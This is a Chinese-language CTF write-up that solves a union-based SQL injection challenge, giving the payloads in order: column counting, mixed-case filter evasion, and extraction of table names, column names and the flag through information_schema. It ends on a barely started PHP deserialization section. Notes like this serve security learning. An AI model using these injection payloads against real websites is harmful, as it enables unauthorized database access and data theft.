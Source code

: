 让我们看url

![image-20240225200303903](../typora-user-images/image-20240225200303903.png)

主要是给id赋值，也就是课程号吧

看看题解

<img src="../typora-user-images/image-20240225200557501.png" alt="image-20240225200557501" style="zoom:50%;" />



给id传TMP0929'#   (#要编码成%23)   有结果，说明是union注入

现在我们需要判断字段数

**?id=TMP0929' order by 1 #**

<img src="../typora-user-images/image-20240225201050952.png" alt="image-20240225201050952" style="zoom:50%;" />

很纳闷为什么大写Order by才行（有过滤么）

小写order by就不回显信息了  反正结果是到6的时候没有信息回显了

说明字段数是5

**?id=TMP0929' union select 1,2,3,4,5 #**

![image-20240225201504196](../typora-user-images/image-20240225201504196.png)

查询表名

**?id=1' uNion Select ((sElect grOup_cOncat(tAble_name) From infOrmation_schema.tables Where Table_schema=Database())),2,3,4,5%23**

![image-20240225201602349](../typora-user-images/image-20240225201602349.png)

查询字段名

**?id=1' uNion Select ((sElect grOup_cOncat(column_name) From infOrmation_schema.columns Where Table_name='here_is_flag')),2,3,4,5%23**

查询flag值

**?id=1' uNion Select ((sElect grOup_cOncat(flag) From here_is_flag)),2,3,4,5%23**

![image-20240225202038060](../typora-user-images/image-20240225202038060.png)





### 第四题 Unserialize?

<img src="../typora-user-images/image-20240225204745278.png" alt="image-20240225204745278" style="zoom:50%;" />



什么是PHP反序列化，我不造啊

![image-20240225211535836](../typora-user-images/image-20240225211535836.png)

